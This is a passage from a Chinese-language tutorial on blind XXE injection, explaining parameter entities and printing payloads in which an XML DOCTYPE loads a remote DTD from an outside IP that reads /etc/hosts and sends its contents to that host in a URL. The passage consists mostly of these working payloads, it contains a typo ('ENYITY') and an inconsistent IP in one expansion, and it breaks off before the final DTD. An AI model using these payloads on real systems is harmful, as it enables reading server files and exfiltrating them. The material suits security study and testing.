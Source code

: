 other.dtd

```dtd
<!ENYITY % name "%param1;%param2;">
```

参数实体name引用了参数实体param1和param2，最后的值为Hello,World

payload:

```Xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://112.74.35.205/XXE/file.dtd">
%remote;
%int;
%send;
]>
```

外部dtd文件：

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % int "<!ENTITY &#37; send system 'http://112.74.35.205/?p=%file;'>">
```

首先`%remote;`加载外部dtd文件，得到：

```dtd
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % int "<!ENTITY &#37; send system 'http://112.74.35.205/?p=%file;'>">
%int;
%send;
```

接着`%int;`获取对应的实体的值，因为值中包含实体引用`%file`，即`/etc/hosts`文件的内容，得到：

```xml
<!ENTITY &#37; send system 'http://192.168.1.17:80/?p=[文件内容]'>

%send;
```

最后`%send;`获取对应实体的值，会去请求对应url的资源，通过查看访问日志可得到文件内容，这里还需要对内容进行编码，防止xml解析错误

本地测试，并不能成功，访问日志中只有dtd文件的访问记录，并没有获取到`/etc/hosts`的内容,使用`XXEinjector`这个工具可以获得

以下payload可以成功

payload

```xml
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://112.74.35.205/XXE/key.dtd"> %remote;
%int;
%send;
]>
```

外部dtd文件内容：
